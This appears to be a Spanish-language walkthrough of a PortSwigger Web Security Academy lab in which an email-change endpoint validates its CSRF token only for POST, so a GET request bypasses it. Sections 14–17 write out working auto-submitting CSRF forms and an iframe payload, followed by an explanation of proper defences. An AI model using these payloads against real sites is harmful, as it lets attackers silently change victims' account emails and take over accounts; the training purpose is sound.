

# PortSwigger Web Security Academy — CSRF Lab 2

# CSRF where token validation depends on request method

**Categoría:** CSRF  
**Lab:** CSRF where token validation depends on request method  
**URL:** https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method  
**Objetivo:** alojar una página HTML en el exploit server que fuerce al navegador de la víctima a cambiar su email.  
**Credenciales:** `wiener:peter`

---

## Índice

1. Contexto del laboratorio  
2. Qué intenta proteger la aplicación  
3. Qué es CSRF en este caso  
4. Diferencia con el lab anterior  
5. Qué significa “token validation depends on request method”  
6. Flujo normal de cambio de email  
7. Captura de la petición legítima  
8. Análisis del token CSRF  
9. Cambio de método con Burp Suite  
10. Qué vulnerabilidad aparece al usar GET  
11. Corrección conceptual importante: el token no desaparece, deja de validarse  
12. Prueba mental: GET sin token  
13. Por qué GET también debe estar protegido  
14. Generación del CSRF PoC  
15. HTML generado por Burp  
16. Explicación línea por línea del PoC  
17. Versión mínima del exploit sin token  
18. Uso del exploit server  
19. Deliver to victim  
20. Confirmación de resolución  
21. Flujo completo del ataque  
22. Por qué la defensa está mal implementada  
23. Cómo se corrige correctamente  
24. Errores comunes  
25. Resumen final

---

# 1. Contexto del laboratorio

Este laboratorio trata sobre una vulnerabilidad CSRF en la funcionalidad de cambio de email.

La aplicación intenta protegerse usando un token CSRF, pero comete un error importante:

```text
solo valida el token CSRF en algunos métodos HTTP
```

En concreto, la protección funciona para `POST`, pero no para `GET`.

Eso permite al atacante cambiar el método de la petición y ejecutar la misma acción sin tener que conocer un token CSRF válido.

Captura del laboratorio resuelto en el exploit server:



---

# 2. Qué intenta proteger la aplicación

La aplicación tiene una funcionalidad sensible:

```text
cambiar el email de la cuenta
```

Cambiar un email es una acción importante porque puede afectar a:

- recuperación de contraseña;
- notificaciones;
- control de cuenta;
- identidad del usuario dentro de la aplicación.

Por eso debe estar protegida contra CSRF.

La aplicación intenta proteger esta acción usando un token CSRF.

Una petición legítima contiene algo parecido a:

```text
email=payload@gmail.com&csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

A primera vista parece seguro.

Pero el problema está en que la aplicación valida el token solo cuando la petición usa `POST`.

---

# 3. Qué es CSRF en este caso

CSRF significa:

```text
Cross-Site Request Forgery
```

La idea es:

```text
una página controlada por el atacante fuerza al navegador de una víctima autenticada a enviar una petición a la aplicación vulnerable
```

El atacante no necesita saber la cookie de la víctima.

El navegador la adjunta automáticamente si la víctima está logueada.

Ejemplo conceptual:

```text
Víctima está logueada en la aplicación
↓
Víctima visita una página maliciosa
↓
La página maliciosa envía una petición a /my-account/change-email
↓
El navegador añade la cookie de sesión de la víctima
↓
El servidor cambia el email
```

---

# 4. Diferencia con el lab anterior

En el laboratorio anterior no había defensas CSRF.

La petición de cambio de email solo necesitaba:

```text
email=nuevo@email.com
```

En este laboratorio sí aparece un token:

```text
csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

Por eso, si intentas hacer un CSRF clásico mediante `POST` sin token, debería fallar.

El bypass consiste en descubrir que el token solo se valida en `POST`.

Entonces usamos `GET`.

---

# 5. Qué significa “token validation depends on request method”

El título del lab significa literalmente:

```text
la validación del token depende del método de la petición
```

Es decir, el backend probablemente tiene una lógica parecida a esta:

```python
if request.method == "POST":
    validate_csrf_token()

change_email()
```

O incluso algo más peligroso:

```python
if request.method == "POST":
    if csrf_token_is_invalid:
        reject()

update_email()
```

El problema es que si la petición llega por `GET`, el servidor no ejecuta la validación CSRF.

Entonces esto queda protegido:

```http
POST /my-account/change-email
```

Pero esto no:

```http
GET /my-account/change-email?email=attacker@gmail.com
```

Y si ambos métodos modifican el email, la protección queda rota.

---

# 6. Flujo normal de cambio de email

Entramos en `My account` con:

```text
wiener:peter
```

Cambiamos el email desde el formulario legítimo.

La aplicación genera una petición `POST`.

Esto es normal: las acciones que cambian estado deberían usar `POST`.

Pero no basta con usar POST. También hay que validar correctamente el token CSRF.

---

# 7. Captura de la petición legítima

La petición capturada es:

```http
POST /my-account/change-email HTTP/1.1
Host: 0a27009c03ea7f9c8127165700400017.web-security-academy.net
Cookie: session=GA50ckAwFMMPcwR9Ns79ep1dFlQHA33p
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a27009c03ea7f9c8127165700400017.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: https://0a27009c03ea7f9c8127165700400017.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=payload%40gmail.com&csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

Lo más importante está en el body:

```text
email=payload%40gmail.com&csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

Decodificado:

```text
email=payload@gmail.com
csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

---

# 8. Análisis del token CSRF

El parámetro:

```text
csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9
```

es el token CSRF.

Un token CSRF sirve para demostrar que la petición se originó desde una página legítima de la aplicación.

El atacante puede forzar una petición desde otra web, pero no puede leer el token del formulario legítimo debido a la Same-Origin Policy.

Por eso, si el servidor validara siempre el token, el ataque fallaría.

---

# 9. Cambio de método con Burp Suite

En Burp Repeater, usamos:

```text
Change request method
```

Burp transforma la petición de `POST` a `GET`.

La petición queda así:

```http
GET /my-account/change-email?email=payload%40gmail.com&csrf=vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9 HTTP/1.1
Host: 0a27009c03ea7f9c8127165700400017.web-security-academy.net
Cookie: session=GA50ckAwFMMPcwR9Ns79ep1dFlQHA33p
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a27009c03ea7f9c8127165700400017.web-security-academy.net/my-account?id=wiener
Origin: https://0a27009c03ea7f9c8127165700400017.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Burp mueve los parámetros del body a la URL:

```text
/my-account/change-email?email=payload%40gmail.com&csrf=...
```

---

# 10. Qué vulnerabilidad aparece al usar GET

La aplicación acepta la acción de cambio de email también mediante `GET`.

Esto ya es una mala práctica porque `GET` debería usarse para operaciones de lectura, no para modificar estado.

Pero el problema grave es este:

```text
con GET, la aplicación no valida correctamente el token CSRF
```

Entonces el atacante puede hacer la misma acción con una petición mucho más fácil de forzar.

---

# 11. Corrección conceptual importante

No es correcto decir:

```text
el token CSRF desaparece
```

Lo correcto es:

```text
el token deja de ser necesario porque el servidor no lo valida cuando la petición usa GET
```

Puede que el token siga apareciendo en la URL si Burp lo conserva.

Pero eso no significa que el servidor lo esté usando.

La vulnerabilidad real no es que el token “desaparezca”.

La vulnerabilidad real es esta:

```text
la validación del token depende del método HTTP
```

En otras palabras:

```text
POST → token validado
GET  → token no validado
```

---

# 12. Prueba mental: GET sin token

En este lab, la petición probablemente funcionaría incluso así:

```http
GET /my-account/change-email?email=pepe%40gmail.com HTTP/1.1
Host: 0a27009c03ea7f9c8127165700400017.web-security-academy.net
Cookie: session=...
```

Sin:

```text
csrf=...
```

Ese es el punto clave del bypass.

Si la acción se ejecuta sin token, el token de la versión POST no aporta seguridad real.

---

# 13. Por qué GET también debe estar protegido

Cualquier request que cambie estado debe estar protegida contra CSRF.

Da igual si usa:

```text
GET
POST
PUT
PATCH
DELETE
```

La regla es:

```text
si cambia datos, necesita protección
```

Cambiar email cambia datos.

Por tanto, si el endpoint acepta GET, también debería validar el token o, mejor aún, rechazar el método GET.

---

# 14. Por qué GET es especialmente peligroso

GET se puede disparar de muchas formas desde una web atacante.

Por ejemplo:

```html

```

o:

```html
<iframe src="https://victima.com/my-account/change-email?email=attacker@gmail.com"></iframe>
```

o con un formulario:

```html
<form action="https://victima.com/my-account/change-email">
  <input type="hidden" name="email" value="attacker@gmail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

El navegador enviará la cookie de la víctima automáticamente.

---

# 15. Generación del CSRF PoC

En Repeater, sobre la petición GET, usamos:

```text
Engagement Tools > Generate CSRF PoC
```

Burp genera un HTML que reproduce la petición.

El PoC generado fue:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a27009c03ea7f9c8127165700400017.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="pepe&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 16. Explicación línea por línea del PoC

## 16.1 Form action

```html
<form action="https://0a27009c03ea7f9c8127165700400017.web-security-academy.net/my-account/change-email">
```

Como no se especifica `method`, el formulario usa `GET` por defecto.

Esto es importante.

En HTML, si no pones:

```html
method="POST"
```

el navegador enviará el formulario como `GET`.

Por eso los campos se mandarán en la URL.

---

## 16.2 Campo email

```html
<input type="hidden" name="email" value="pepe&#64;gmail&#46;com" />
```

Esto genera:

```text
email=pepe@gmail.com
```

`&#64;` representa `@`.

`&#46;` representa `.`.

Burp codifica algunos caracteres como entidades HTML, pero el navegador los interpreta correctamente.

---

## 16.3 Campo csrf

```html
<input type="hidden" name="csrf" value="vHD8JMtoJzDjK8xP6cLrRpMwuRrhLSL9" />
```

Burp lo incluye porque estaba presente en la request que usamos para generar el PoC.

Pero en este laboratorio no es necesario.

La razón es:

```text
el servidor no valida el token en GET
```

Por tanto, este campo puede quedarse o eliminarse. El ataque funciona por el método GET vulnerable.

---

## 16.4 Botón submit

```html
<input type="submit" value="Submit request" />
```

Permite enviar el formulario manualmente.

Pero el ataque no depende de que la víctima pulse el botón.

---

## 16.5 Auto-submit

```javascript
document.forms[0].submit();
```

Esta línea envía el formulario automáticamente cuando la víctima carga la página.

El flujo es:

```text
la víctima abre el exploit
↓
el navegador renderiza el HTML
↓
JavaScript envía el formulario
↓
se dispara la petición GET al endpoint vulnerable
```

---

## 16.6 history.pushState

```javascript
history.pushState('', '', '/');
```

Cambia la URL visible en la barra del navegador.

No es necesaria para la explotación.

Sirve para que la URL parezca más limpia.

---

# 17. Versión mínima del exploit sin token

Como el token no se valida en GET, el exploit puede simplificarse a esto:

```html
<html>
  <body>
    <form action="https://0a27009c03ea7f9c8127165700400017.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="pepe@gmail.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Esta versión expresa mejor la vulnerabilidad real:

```text
GET cambia el email sin validar CSRF
```

---

# 18. Qué petición genera el navegador víctima

Al cargar el exploit, el navegador de la víctima genera algo como:

```http
GET /my-account/change-email?email=pepe%40gmail.com HTTP/1.1
Host: 0a27009c03ea7f9c8127165700400017.web-security-academy.net
Cookie: session=COOKIE_REAL_DE_LA_VICTIMA
```

El atacante no conoce:

```text
COOKIE_REAL_DE_LA_VICTIMA
```

No hace falta.

El navegador la añade automáticamente.

---

# 19. Uso del exploit server

Vamos al exploit server.

Pegamos el HTML en el body de `Craft a response`.

Pulsamos:

```text
Store
```

Esto guarda la página maliciosa.

Después pulsamos:

```text
Deliver to victim
```

El laboratorio simula que una víctima autenticada visita nuestra página.

---

# 20. Qué ocurre al hacer Deliver to victim

El proceso interno es:

```text
1. La víctima simulada abre el exploit server.
2. El exploit server devuelve el HTML malicioso.
3. El navegador de la víctima procesa el formulario.
4. El JavaScript ejecuta document.forms[0].submit().
5. El navegador envía una petición GET al endpoint vulnerable.
6. El navegador adjunta la cookie de sesión de la víctima.
7. El servidor cambia el email.
8. El laboratorio detecta el cambio y se marca como resuelto.
```

---

# 21. Confirmación de resolución

El laboratorio queda en estado:

```text
Solved
```

La captura muestra el estado resuelto en el exploit server.


---

# 22. Flujo completo del ataque

```text
Usuario víctima
  está autenticado
  tiene cookie de sesión

Atacante
  crea formulario GET malicioso
  lo aloja en exploit server

Víctima
  visita exploit server

Navegador víctima
  autoenvía formulario
  añade cookie automáticamente

Servidor vulnerable
  recibe GET /change-email?email=...
  no valida CSRF en GET
  cambia email

Lab
  detecta acción
  marca solved
```

---

# 23. Por qué la defensa está mal implementada

La defensa está mal porque se aplica de forma inconsistente.

La aplicación parece decir:

```text
si es POST, compruebo token
si es GET, no lo compruebo
```

Eso es un error grave.

La seguridad no puede depender de que el usuario o el atacante usen el método “esperado”.

Un atacante probará métodos alternativos.

Si el endpoint permite GET, el servidor debe:

```text
rechazar GET
```

o validar CSRF también en GET.

Mejor opción:

```text
las acciones de cambio de estado no deben permitirse por GET
```

---

# 24. Qué habría hecho una aplicación segura

Una aplicación segura haría varias cosas.

## 24.1 Rechazar GET

Para cambiar email, solo debería aceptar POST:

```http
GET /my-account/change-email?email=x
```

Respuesta esperada:

```http
405 Method Not Allowed
```

---

## 24.2 Validar CSRF en todas las acciones sensibles

Si una acción cambia estado, debe requerir token válido.

No importa el método.

---

## 24.3 Validar Origin o Referer

Puede comprobar:

```http
Origin: https://sitio-legitimo
```

Si la petición viene desde el exploit server, rechazar.

---

## 24.4 Usar cookies SameSite

Una cookie con:

```http
SameSite=Strict
```

no se enviaría en contextos cross-site.

Esto dificulta ataques CSRF.

---

## 24.5 No cambiar estado con GET

GET debe ser seguro e idempotente desde el punto de vista de acciones web.

GET debería usarse para leer, no para modificar.

---

# 25. Errores comunes

## Error 1: “El token desaparece”

No.

El token puede seguir presente en la URL.

El problema es que el servidor no lo valida en GET.

---

## Error 2: “Como hay token, no hay CSRF”

Falso.

Hay token en POST, pero existe otra forma de ejecutar la acción sin validarlo.

---

## Error 3: “GET no puede hacer CSRF”

Falso.

GET es incluso más fácil de explotar.

---

## Error 4: “Burp genera un PoC con token, entonces el token es necesario”

No necesariamente.

Burp genera el PoC a partir de la request que le das.

Si la request tenía token, Burp lo incluye.

Pero la lógica vulnerable puede no necesitarlo.

---

## Error 5: “El atacante necesita leer la respuesta”

No.

CSRF no necesita leer respuesta.

Solo necesita provocar la acción.

---

# 26. Resumen final

Este laboratorio demuestra una defensa CSRF mal aplicada.

La funcionalidad de cambio de email usa un token CSRF en peticiones POST.

Sin embargo, al cambiar el método a GET, la aplicación permite ejecutar la misma acción sin validar el token.

El atacante aprovecha esto creando un formulario HTML que usa GET y se autoenvía cuando la víctima visita el exploit server.

El navegador de la víctima añade automáticamente su cookie de sesión, el servidor procesa la petición y cambia el email.

---

# 27. Frase clave

```text
Un token CSRF no sirve si existe otro método para ejecutar la misma acción sin validarlo.
```

---

# 28. Idea definitiva

La protección CSRF debe aplicarse a todas las acciones sensibles de forma consistente.

Si `POST` está protegido pero `GET` no, el atacante simplemente usará `GET`.

Ese es el núcleo de este laboratorio.

